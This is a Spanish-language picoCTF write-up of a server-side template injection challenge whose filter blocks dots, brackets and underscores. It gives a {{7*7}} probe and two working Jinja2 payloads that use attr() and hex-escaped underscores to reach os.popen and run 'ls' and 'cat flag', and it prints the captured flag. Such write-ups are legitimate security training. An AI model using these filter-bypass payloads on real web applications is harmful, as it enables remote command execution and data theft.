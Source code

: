 
**Reto:**
Hacer una inyección a la platilla del sitio para obtener la bandera

**Descripción:**
-I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
-I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:52789/)!

**Solución:**
Descifrar la plantilla usada, crear un comando que logra evadir puntos, corchetes y guiones bajos, ingresar el comando y revelar la ubicación de la bandera.
-Abrir la página.
-Escribir en la entrada `{{7*7}}%\` para verificar que haya una vulnerabilidad
-Escribir el siguiente comando en la página:`
```
{{request|attr('application')|attr("\x5f\x5fglobals\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')("\x5f\x5fimport\x5f\x5f")('os')|attr('popen')('ls')|attr('read')()}}
```
-Una vez encontrados los archivos, ingresar a la pagina el siguiente comando.
```
{{request|attr('application')|attr("\x5f\x5fglobals\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')("\x5f\x5fimport\x5f\x5f")('os')|attr('popen')('cat flag')|attr('read')()}}
```
-Cuando se ingresa el comando en la página, la página mostrara el archivo con el texto en pantalla.

El resultado es: **picoCTF{sst1_f1lt3r_byp4ss_3cfcf706}**.

**Notas adicionales:**
-La operacion attr permite buscar una variable, función o procedimiento solamente con una cadena que contiene su nombre.
-La expresión `\x` es utilizada para representar caracteres con a partir de bytes.

**Referencias:**
https://portswigger.net/web-security/server-side-template-injection
https://portswigger.net/web-security/server-side-template-injection/exploiting
https://discuss.python.org/t/converting-bytes-to-string-to-bytes/11533/6